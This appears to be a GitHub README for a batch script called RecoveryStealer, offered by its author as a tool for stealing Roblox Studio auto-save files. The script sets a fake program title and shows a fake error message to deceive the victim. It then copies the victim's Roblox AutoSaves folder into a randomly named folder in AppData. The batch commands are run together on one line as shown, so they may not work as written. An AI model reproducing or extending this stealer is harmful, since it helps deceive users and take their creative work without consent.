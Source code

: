 # RecoveryStealer
Roblox Studio Files Recovery Stealer.

Author: BonnieRBLX (.bxnnie)
## Requirements 
Windows 10 or higher 
### Source
```batch
@echo off color 0c title %fakename% echo %errorstr% cd %AppData% md AutoSaves%rn% xcopy C:\Users\%user%\Documents\ROBLOX\AutoSaves %AppData%\AutoSaves%rn% timeout /t 2 /nobreak >nul
```
> fakename: variable which is displays program name.
> 
> errorstr: variable which is displays error string.
> 
> rn: random number.
> 
> user: User's name.
> 
